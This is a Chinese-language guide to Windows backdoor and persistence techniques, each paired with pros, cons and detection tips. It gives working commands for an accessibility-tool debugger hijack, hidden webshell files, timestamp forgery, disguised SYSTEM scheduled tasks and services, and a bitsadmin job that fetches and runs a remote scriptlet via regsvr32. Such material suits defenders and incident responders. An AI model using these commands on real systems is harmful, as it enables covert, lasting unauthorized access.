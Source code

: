 ## windows常见backdoor、权限维持方法及排查技术

### 什么是Persistence？ [^1]

### 常见backdoor和persistence方式方法

1. #### 系统工具替换后门 [^2]

   ```powershell
   # Image劫持辅助工具管理器（utilman.exe, 快捷键 Win + U）
   # 注册表更改命令详见 `reg.exe` 应用程序
   REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
   # 结果就是只要按键盘 Win + U 就可以打开 cmd 窗口，而不是辅助工具管理器窗口
   ```

   - 类似的程序有osk.exe（屏幕键盘程序）、Narrator.exe（讲述人程序）、Magnify.exe（放大镜程序）等
   - 优点：简单
   - 缺点：易被检测
   - 排查：工具autoruns [^3]

2. #### 文件隐藏

   1. ##### attrib命令隐藏 [^4]

      `attrib +r +s +h webshell.php`

      - 优点：简单

      - 缺点：暂无
      - 排查：使用 attrib 命令，dir 命令（dir /a) 或者D盾

   2. ##### 使用ADS流隐藏webshell

      `echo "hello world" > demo.c:flags.txt`

      `echo "hello" > :key.txt` [^5]

      `notepad demo.c:flags.txt`

      `type demo.c:flags.txt`

      - ```powershell
        # 此时应该注意修改文件的timestamp，可使用如下的powershell命令或者使用NewFileTime工具
        # $(Get-Item ).creationtime=$(Get-Date "mm/dd/yyyy hh:mm am/pm")
        # $(Get-Item ).lastaccesstime=$(Get-Date "mm/dd/yyyy hh:mm am/pm")
        # $(Get-Item ).lastwritetime=$(Get-Date "mm/dd/yyyy hh:mm am/pm")
        # example：
        # Set the last-access time for a file aaa.csv to the current time:  
        $(Get-Item aaa.csv).lastwritetime=$(Get-Date)
        # Set the creation time of a file foo.txt to November 24, 2015, at 6:00am: 
        $(Get-Item foo.txt).creationtime=$(Get-Date "11/24/2015 06:00 am")
        ```

      - 优点：较难检测
      - 缺点：暂无
      - 排查： `dir /r`
      - Ref : [利用ADS隐藏webshell](https://www.cnblogs.com/xiaozi/p/7610984.html) 、[Windows ADS在渗透测试中的妙用](https://www.freebuf.com/articles/terminal/195721.html)

3. #### 计划任务

   `schtasks /delete /tn "AdobeReaderUpdate" /f`

   `schtasks /create /ru "System" /tn "AdobeReaderUpdate" /sc Weekly /d * /st 18:00:00 /tr "powershell.exe C:\Windows\System32\drivers\en-US\etc\Line.ps1"`

   `SCHTASKS /Create /RU "SYSTEM" /tn "AdobeReaderUpdateEnd" /sc Weekly /d MON,TUE,WED,THU,FRI /st 06:00:00 /tr "powershell.exe Stop-Process -Name $processname"`

   `taskschd.msc`

   - 优点：简单
   - 缺点：易被检测
   - 排查： `schtasks /query `命令进行查询或者通过计算机的管理查看，注意在windows的中文版系统中，schtasks命令需要切换字符为美国英语格式，使用命令`chcp 437`，或者直接工具autoruns

4. #### 开机启动项

   ```powershell
   HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
   HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
   HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
   ...
   ```

   - 优点：重启权限维持
   - 缺点：一般杀软均会拦截
   - 排查：autoruns

5. #### 服务

   `sc create [ServerName] binPath= BinaryPathName`

   - 优点：重启权限维持
   - 缺点：一般杀软会拦截
   - 排查：工具autoruns

6. #### waitfor.exe

   - 不支持自启动，但可远程主动激活，后台进程显示为waitfor.exe
   - `certutil -encode infile outfile`
   - `certutil -decode infile outfile`
   - Ref : [详细参考](https://github.com/3gstudent/Waitfor-Persistence) 、[waitfor.md](waitfor.md) 
   - 优点：远程主动激活
   - 缺点：有waitfor进程
   - 排查：通过Process Explorer （procexp）工具查看是否有waitfor.exe进程，并进一步查看启动参数等

7. #### bitsadmin后门 [^6]

   ```powershell
   # 创建一个下载任务：
   bitsadmin /create backdoor
   # 添加文档：
   bitsadmin /addfile backdoor %comspec%  %temp%\cmd.exe
   # 设置下载成功之后要执行的命令：
   bitsadmin.exe /SetNotifyCmdLine backdoor regsvr32.exe "/u /s /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct scrobj.dll"
   # 执行任务：
   bitsadmin /Resume backdoor
   ```

   - Ref : [bitsadmin-backdoor-权限维持后门](https://paper.tuisec.win/detail/77720db7618e92c)
   - 优点：系统自带无需上传
   - 缺点：免杀效果一般
   - 排查：bitsadmin /list /verbose

8. #### WMI后门

   - Ref: [参考文档](https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf)、[Powersploit](https://github.com/PowerShellMafia/PowerSploit/blob/9e771d15bf19ab3c2ac196393c088ecdab6c9a73/Persistence/Persistence.psm1)
   - 优点：无文件，后门在系统重启五分钟之内触发且是system权限，相对来说难以排查
   - 缺点：暂无
   - 排查：工具autoruns

9. #### COM劫持

   - Ref: [freebuf](https://www.freebuf.com/articles/system/115241.html)、[CLR](https://www.4hou.com/technology/6863.html) 
   - 优点：隐藏性较好,autoruns查不到
   - 缺点：暂无
   - 排查：检查环境变量和注册表键值

10. #### meterpreter 权限维持 [^7]

  - `metsvc `是开机自启动的服务型后门
  - persistence模块是先上传vbs脚本并执行vbs脚本修改注册表`HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`从而完成自启动
  - Ref : [metsvc代码](https://github.com/rapid7/metasploit-framework/blob/76954957c740525cff2db5a60bcf936b4ee06c42/scripts/meterpreter/metsvc.rb)、[persistence代码](https://github.com/rapid7/metasploit-framework/blob/master/modules/post/windows/manage/persistence_exe.rb)
  - 优点：开机自启动
  - 缺点：容易被杀软杀
  - 排查：autoruns

11. #### Empire persistence模块 [^8]

    - Ref ： [参考文章](https://www.harmj0y.net/blog/empire/nothing-lasts-forever-persistence-with-empire/)
    - 优点：基本集成了大部分的权限维持方法
    - 缺点：暂无
    - 排查：工具autoruns

12. #### 进程注入 [^9]

    - Ref : [Hunting empire](https://holdmybeersecurity.com/2019/02/27/sysinternals-for-windows-incident-response/)
    - 优点：较难排查
    - 缺点：暂无
    - 排查：工具process explorer 、process monitor

### other

- 还有像是dll劫持、一些软件的插件后门、office后门等
- 更多windows backdoor方面最新文章可以关注国外安全研究员Casey Smith@subTee和Adam@Hexacorn

[原文](https://xz.aliyun.com/t/4842)

---

[^1]: 持久化是指即使在创建它的进程停止或其运行的机器断电之后仍然存在的对象和进程特性。当一个对象或状态被创建并且需要持久时，它将保存在非易失性存储位置（如硬盘驱动器）中，而不是临时文件或易失性随机存取存储器（RAM）
[^2]: Windows提供了一个命令replace.exe，通过它我们可以替换系统文件
[^3]: Windows Sysinternals工具集里的一个软件，可显示在系统启动或登录期间配置要运行的程序，以及启动各种内置Windows应用程序
[^4]: windows自带命令行工具attrib用来显示或更改文件属性
[^5]: 编辑时需退到上级目录进行查看 `dir /r`，删除时需要将宿主文件删除或使用 WinHex工具或压缩后解压替换
[^6]: Bitsadmin从win7之后操作系统就默认包含，可以用来创建上传或者下载任务。Bistadmin可以指定下载成功之后要进行什么命令。后门就是利用的下载成功之后进行命令执行
[^7]: meterpreter中的权限维持技术有两种，一种是metsvc的后门(服务后门)，另外一种是persistence(注册表后门)
[^8]: Empire是一款功能非常强大的后渗透攻击框架。其中的persistence模块提供了一系列权限维持方法。工具还把权限维持分为了四大类，userland(普通权限)、elevated(需要高权限)、powerbreach(内存权限维持，重启后失效)、miscellaneous(其它)
[^9]: 准确来说进程注入不是后门技术或者权限维持技术，而是一种隐藏技术，这里简单说一下empire的psinject、cobaltstrike的inject和meterpreter中的migrate进程注入，一般可以注入到像是lsass或者explorer这样的进程当中，相对比较隐蔽，较难排查